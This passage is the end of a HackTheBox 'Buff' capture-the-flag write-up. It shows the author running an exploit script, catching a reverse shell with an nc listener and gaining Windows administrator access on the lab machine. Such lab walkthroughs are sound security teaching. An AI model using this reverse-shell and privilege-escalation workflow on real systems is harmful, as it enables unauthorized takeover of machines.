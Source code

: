 ```
┃
┗━(Run “touch ~/.hushlogin” to hide this message)
root@nehal:~# 
```

Now, we need to set up a listener on the specified port and run the exploit.

```
┌──(root💀nehal)-[~]
└─# python3 48389.py 
┌──(root💀nehal)-[~]
└─# 
```

```
┌──(root💀nehal)-[~]
└─# nc -nlvp 8080
listening on [any] 8080 ...
connect to [10.10.14.57] from (UNKNOWN) [10.129.25.107] 49681
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator

C:\Windows\system32>
```

And we are `administrator`. 

![](assets/img/buff-htb/meme-3.gif)

Now, you can read the root flag too.

So, that was **Buff** from **HackTheBox**. 

**Thanks** for reading this far. Hope you liked it.

I will see you in the next write-up. **PEACE**.

